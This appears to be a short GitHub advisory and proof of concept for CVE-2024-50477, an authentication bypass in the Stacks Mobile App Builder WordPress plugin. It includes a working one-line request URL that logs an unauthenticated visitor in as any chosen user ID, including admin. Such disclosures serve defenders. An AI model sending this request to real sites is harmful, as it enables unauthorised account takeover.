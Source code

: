 # CVE-2024-50477
Stacks Mobile App Builder &lt;= 5.2.3 - Authentication Bypass via Account Takeover

# Description:
The Stacks Mobile App Builder – The most powerful Mobile Applications Drag and Drop builder plugin for WordPress is vulnerable to authentication bypass in all versions up to, and including, 5.2.3. This is due to the plugin not properly verifying a user's identity prior to authenticating them via the receive_request_checkout() function. This makes it possible for unauthenticated attackers to log in as any user based on user ID.


```
Published: 2024-10-25 00:00:00
CVE: CVE-2024-50477
CVSS: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
CVSS Score: 9.8
Slugs: stacks-mobile-app-builder
```

POC
---

```
http://kubernetes.docker.internal/?mobile_co=1&uid=1
```


You should be redirected and logged in as admin.  ID is the user you wish to login as.
